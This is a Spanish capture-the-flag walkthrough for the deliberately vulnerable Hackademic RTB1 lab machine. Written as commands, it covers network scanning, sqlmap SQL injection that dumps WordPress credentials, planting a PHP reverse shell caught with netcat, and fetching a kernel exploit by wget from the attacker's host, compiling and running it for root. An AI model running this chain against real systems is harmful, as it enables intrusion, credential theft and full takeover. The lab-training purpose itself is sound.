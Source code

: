 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F7F400&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap.  
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`

Acceder al panel de login de WordPress:
```
http://192.168.1.5/Hackademic_RTB1/wp-login.php
```
![7](https://user-images.githubusercontent.com/75953873/171924583-6a77c97a-d61c-4d81-a199-39077d868d4b.png)

- *Paso 5:* Subir código PHP y obtener una reverse shell. 

**->** Manage **->** Files

![8](https://user-images.githubusercontent.com/75953873/171925393-d911ddcf-cf5a-4670-8143-4026d0c70424.png)

Copiar código PHP de la siguiente ruta:
```
cat /usr/share/webshells/php/php-reverse-shell.php
```
![9](https://user-images.githubusercontent.com/75953873/171925910-7d2cc0de-93a1-4bc8-aeaf-dad026c76a9c.png)

Pegan el código en hello.php y cambian la línea de `$ip` por su IP local, luego guardan los cambios "Update File":

![10](https://user-images.githubusercontent.com/75953873/171926310-94b22d02-b809-4029-a72f-d90b1634fe8d.png)

Abren una nueva terminal y ejecutan Netcat para que escuche las conexiones por el puerto 1234. 
```
nc -lvp 1234
```

Posteriormente recargan la siguiente URL:
```
http://192.168.1.5/Hackademic_RTB1/wp-content/plugins/hello.php
```
![11](https://user-images.githubusercontent.com/75953873/171927713-64734806-0fc2-41d6-8b17-aff9e45f4b35.png)

- *Paso 6:* Identificar versión del Kernel y escalar privilegios. 

![12](https://user-images.githubusercontent.com/75953873/171928596-5a971c00-0c42-4d48-bf3c-93a776150472.png)

Localizar el exploit con searchsploit:
```
searchsploit Linux Kernel 2.6.3 RDS Local Privilege Escalation
```
![13](https://user-images.githubusercontent.com/75953873/171930886-0c5950e1-7c71-4a88-9aec-0b2fd90a1fa4.png)

Descargar el exploit:
```
searchsploit -m 15285
```
![14](https://user-images.githubusercontent.com/75953873/171931554-8fde81f6-88fd-4281-8597-ebeb5fd57124.png)

Ejecutamos un servidor HTTP local simple con Python:
```
python3 -m http.server 80
```
![16](https://user-images.githubusercontent.com/75953873/171932402-4c30740c-4e87-4d2e-99be-b09d54c089c1.png)

Dentro de la reverse shell generada, nos movemos al directorio `/tmp` y descargamos el exploit de nuestro servidor:
```
cd /tmp
wget http://192.168.1.9/15285.c
```
![15](https://user-images.githubusercontent.com/75953873/171932443-98620783-0a4f-4007-b69e-fe03b8ce7612.png)

Seguidamente compilamos el código y le damos permisos de lectura, escritura y ejecución:
```
gcc 15285.c -o kernel
chmod 777 kernel
```
![17](https://user-images.githubusercontent.com/75953873/171933850-a08f1cb8-f9fa-4762-96f9-cc2af26619a2.png)

Por último, ejecutan el comando de `./kernel` y comenzará a explotar la vulnerabilidad:

![18](https://user-images.githubusercontent.com/75953873/171934716-5bbc8019-cb0f-4e4c-8307-07a5ab76f146.png)

Y es así como finalmente obtendremos permisos de administrador (root) en la máquina víctima:

![19](https://user-images.githubusercontent.com/75953873/171935035-085279d1-fca1-47ab-9f2d-3e60e2830b04.png)
